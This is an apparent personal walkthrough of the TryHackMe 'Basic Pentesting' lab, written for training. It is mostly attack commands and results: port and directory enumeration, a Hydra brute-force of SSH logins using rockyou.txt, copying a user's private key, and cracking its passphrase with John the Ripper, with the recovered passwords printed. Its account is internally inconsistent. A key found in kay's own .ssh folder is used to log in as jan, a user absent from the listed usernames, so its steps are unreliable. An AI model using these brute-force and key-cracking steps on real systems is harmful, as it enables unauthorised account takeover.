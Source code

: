 # TryHackMe: Basic Pentesting — Personal Walkthrough

This is my personal walkthrough for the TryHackMe "Basic Pentesting" machine, following the steps I took, terminal screenshots, and detailed explanations for each stage.

---

## 1. Deploying the Machine and Connecting

After deploying the machine from the TryHackMe dashboard, I connected to the VPN using my `.ovpn` configuration file:

```sh
sudo openvpn tryhackme.ovpn
```



I grabbed the target machine IP (e.g., `10.10.184.96`) from the TryHackMe interface.

---

## 2. Reconnaissance: Discovering Open Ports

I started with a basic Nmap scan to enumerate open ports and services:

```sh
nmap -sC -sV -oA nmap/basic 10.10.184.96
```




**Explanation:**  
- `-sC`: Run default scripts (useful for version detection and additional info).
- `-sV`: Detect service/version info.
- `-oA nmap/basic`: Output results in all formats with a basename.

**Key Ports Found:**  
- 22/tcp (SSH)
- 80/tcp (HTTP)

---

## 3. Web Enumeration: Finding Hidden Directories

I visited `http://10.10.184.96` in my browser, saw the default Apache page, then ran Gobuster to look for directories:

```sh
gobuster dir -u http://10.10.184.96 -w /usr/share/wordlists/dirb/common.txt
```


**Result:**  
Found `/development`

**Explanation:**  
Gobuster brute-forces directory names using a wordlist. This helps find hidden or unlinked directories.

---

## 4. Exploring `/development` Directory

Navigating to `http://10.10.184.96/development`, I found two files: `dev.txt` and `j.txt`.

- `dev.txt` contained:  
  ```
  Just a test, nothing to see here.
  ```
- `j.txt` contained potential usernames:  
  ```
  James
  Kay
  ```

---

## 5. SSH Brute-Force: Finding Valid Credentials

I created a user list and used Hydra to brute-force SSH logins with the popular `rockyou.txt` password list:

`users.txt`:
```
kay
james
```

**Command:**
```sh
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://10.10.184.96
```


**Result:**  
- Username: kay  
- Password: beeswax

**Explanation:**  
Hydra is a fast login cracker. Here, it tried each username with every password in the wordlist against the SSH service.

---

## 6. Logging in via SSH

With valid credentials, I logged in as kay:

```sh
ssh kay@10.10.184.96
# Password: beeswax
```


---

## 7. Privilege Escalation: Enumerating for Other Users

After logging in, I checked for other users:

```sh
ls /home
```

**Result:**
```
kay  jan
```


**Explanation:**  
Finding another user (`jan`) can be a vector for lateral movement or privilege escalation.

---

## 8. Looking for Ways to Become jan

I looked for SSH keys:

```sh
ls -la /home/kay/.ssh
```

Found an `id_rsa` private key. I copied it to my attacker machine.


---

## 9. Cracking the SSH Key Passphrase

The private key was passphrase-protected. I used `ssh2john` and `john` to crack it:

```sh
ssh2john id_rsa > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


**Result:**  
Passphrase found: `armando`

---

## 10. SSH as jan with the Cracked Key

I set proper permissions and logged in:

```sh
chmod 600 id_rsa
ssh -i id_rsa jan@10.10.184.96
# Passphrase: armando
```


---

## 11. Summary Table

| Step                        | Value         |
|-----------------------------|--------------|
| Hidden Directory            | development  |
| Username                    | kay          |
| Password                    | beeswax      |
| Service (abbreviation)      | SSH          |
| Other User                  | jan          |
| Final Password/Key Passphrase| armando     |

---

## Reflection

- **Nmap** and **Gobuster** are essential for initial enumeration.
- Username lists from on-server files can be crucial for brute-forcing.
- Privilege escalation often involves looking for keys or readable secrets in home directories.
- **John the Ripper** can crack private key passphrases quickly with the right wordlist.

---

---

